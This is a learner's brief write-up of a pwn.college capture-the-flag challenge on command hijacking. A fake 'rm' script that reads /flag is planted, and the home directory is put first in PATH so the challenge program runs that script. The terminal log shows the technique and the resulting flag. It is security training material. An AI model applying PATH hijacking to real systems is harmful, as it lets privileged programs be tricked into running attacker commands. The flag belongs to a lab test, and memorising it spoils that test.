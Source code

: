 # Hijacking Commands
This is the same as the previous challenge. Here we had to trick it into using the fake rm command we made which has the cat /flag command in it. Then it will invoke the false
rm and then give us the flag.
## Command Line
```
Connected!
hacker@path~hijacking-commands:~$ nano
hacker@path~hijacking-commands:~$ nano rm
hacker@path~hijacking-commands:~$ ls -l rm
-rwxr-xr-x 1 hacker hacker 24 Oct 20 17:03 rm
hacker@path~hijacking-commands:~$ export PATH="$HOME:$PATH"
hacker@path~hijacking-commands:~$ /challenge/run
Trying to remove /flag...
Found 'rm' command at /home/hacker/rm. Executing!
pwn.college{YvWBS7i9tg1o2jk265OY7pvCUhB.ddzNyUDLxcDN0czW}
```
![Uploading Hijacking Commands.png…]()
